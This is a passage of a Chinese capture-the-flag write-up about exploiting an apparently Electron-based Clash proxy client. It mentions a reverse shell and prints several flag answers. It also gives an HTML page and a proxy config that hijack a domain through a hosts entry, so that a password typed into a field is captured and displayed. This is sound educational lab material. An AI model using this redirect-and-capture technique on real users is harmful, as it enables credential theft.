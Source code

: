 在 web 控制台加载这个配置文件，并切换到 Proxies 栏目中

直接反弹 shell，运行 `/readflag` 就拿到 flag

![image](https://vip2.loli.io/2023/10/21/bDwlrc64RNinPBm.jpg)

`flag{Uns3cUreP0wereDbyE1ectroN}`

### Flag 1

因为已经有了系统权限，直接读文件就好了

![image](https://vip2.loli.io/2023/10/21/WsQS49iNl8brA7C.jpg)

`flag{c1aShc0r3IsUns3Cure}`

### Flag 2

flag2 在内存中

![image](https://vip2.loli.io/2023/10/21/jIayRCekwGDuJTs.jpg)

结合代码，当程序访问到北大原神网的时候，就会在一个密码输入框里面把 flag 输入进去，最后把页面截图展示给我们

```html
<html>
<head>
  <script defer src="https://cdn.jsdelivr.net/npm/alpinejs@3.x.x/dist/cdn.min.js"></script>
</head>
<body>
  <div x-data="{ flag: '' }">
    <span x-text="flag"></span>
    <input x-model="flag" id="primogem_code" type="password">
  </div>
</body>
</html>
```

把上面的 HTML 随便找一个地方放着，确保可以通过 http 进行访问

```yaml
port: 7890
mode: Rule
log-level: info
external-controller: ":9090"
proxies:
  - name: 1
    type: socks5
    server: 127.0.0.1
    port: 1926
    skip-cert-verify: true
rules:
  - "DOMAIN-SUFFIX,mihoyo.com,REJECT"
  - "GEOIP,CN,DIRECT"
  - "MATCH,DIRECT"
hosts:
  'ys.pku.edu.cn': 192.0.2.146
```
